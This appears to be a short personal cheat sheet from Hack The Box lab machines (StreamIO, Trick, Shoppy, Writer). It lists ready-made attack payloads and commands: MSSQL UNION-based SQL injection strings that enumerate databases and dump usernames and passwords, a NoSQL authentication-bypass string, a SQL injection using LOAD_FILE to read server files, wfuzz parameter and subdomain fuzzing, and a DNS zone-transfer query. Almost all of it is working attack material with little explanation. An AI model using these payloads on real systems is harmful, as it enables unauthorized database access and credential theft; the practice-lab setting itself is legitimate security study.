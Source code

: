 Used in ```StreamIO```

```mssql
/* testing, the order of the movie list is different */
';--
/* check version */
' UNION SELECT 1, SELECT @@VERSION), 3, '4', '5', '6';--
/* show all databases, version >= SQL Server 2017 */
' UNION SELECT 1, (SELECT STRING_AGG(name, ',') FROM sys.sysdatabases), 3, '4', '5', '6' ;--
/* show all databases, version < SQL Server 2017 */
' UNION SELECT 1,(STUFF((SELECT ',' + name FROM sys.sysdatabases FOR XML PATH('')), 1, 1, '')), 3, '4', '5', '6';--
/* show all tables */
' UNION SELECT 1, (SELECT STRING_AGG(TABLE_NAME, ',') FROM STREAMIO.INFORMATION_SCHEMA.TABLES), 3, '4', '5', '6';--
/* show all columns */
' UNION SELECT 1, (SELECT STRING_AGG(COLUMN_NAME, ',') FROM STREAMIO.INFORMATION_SCHEMA.COLUMNS), 3, '4', '5', '6';--
/* get the usernames and passwords */
' UNION SELECT 1, (SELECT STRING_AGG(username, ',') + STRING_AGG(password, ',') FROM STREAMIO.dbo.users), 3, '4', '5', '6';--
```

find parameter

```
wfuzz -H 'Cookie: PHPSESSID=<PHPSESSID>' -u https://streamio.htb/admin/?FUZZ= -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw <value>
```

Used in ```Trick```

```
dig axfr @<target ip> <domain>
```

Used in ```Shoppy```

NoSQL injection payload

```shell
/home/jaeger/ShoppyApp/index.js
```

```NoSQL
admin' || '1==1
```

DNS list

```
wfuzz -H 'Host: FUZZ.shoppy.htb' -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 11
```

Used in ```Writer```

```
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "uname=admin' union select 1,LOAD_FILE('FUZZ'),3,4,5,6; -- -&password=1234" --hw 89 http://writer.htb/administrative
```
